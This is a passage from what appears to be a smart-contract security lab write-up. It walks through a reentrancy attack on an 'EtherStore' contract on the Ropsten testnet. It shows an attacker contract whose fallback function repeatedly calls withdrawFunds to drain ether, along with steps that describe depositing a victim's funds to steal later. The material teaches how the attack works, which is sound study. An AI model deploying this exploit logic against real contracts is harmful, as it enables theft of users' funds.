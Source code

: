   function collectEther\(\) public {  
      msg.sender.transfer\(this.balance\);  
  }

  // fallback function - where the magic happens  
  function \(\) payable {  
      if \(etherStore.balance &gt; 0.1 ether\) {  
          etherStore.withdrawFunds\(0.1 ether\);  
      }  
  }  
}

[https://ropsten.etherscan.io/tx/0x551f6d272274edbef299763343a4daea58438ef20522ed526ecfea7bff59734f](https://ropsten.etherscan.io/tx/0x551f6d272274edbef299763343a4daea58438ef20522ed526ecfea7bff59734f)  
From:  
`0x109bb3673f445d8b0d2b04436d7b4a630b873b81`  
To:  
`0x733146fa7f8b40f4c97d946efeb7bdc9ff69ba6e`

Deposit some Eth from Metamask \(pretend this is some other user/victim\) to EtherStore \(to steal later\):  
[https://ropsten.etherscan.io/tx/0x58671521d2c0df635bf0c3986d53186e38ebe8d4f7d62c2fb5f681e0d938bec6](https://ropsten.etherscan.io/tx/0x58671521d2c0df635bf0c3986d53186e38ebe8d4f7d62c2fb5f681e0d938bec6)  
[![images/23-1.png](../.gitbook/assets/23-1%20%281%29.png)](smart_contracts_security.ctb-9.md)

I can now check the balance of my Metamask account by calling the `balances` mapping:

[![images/23-2.png](../.gitbook/assets/23-2%20%281%29.png)](smart_contracts_security.ctb-9.md)
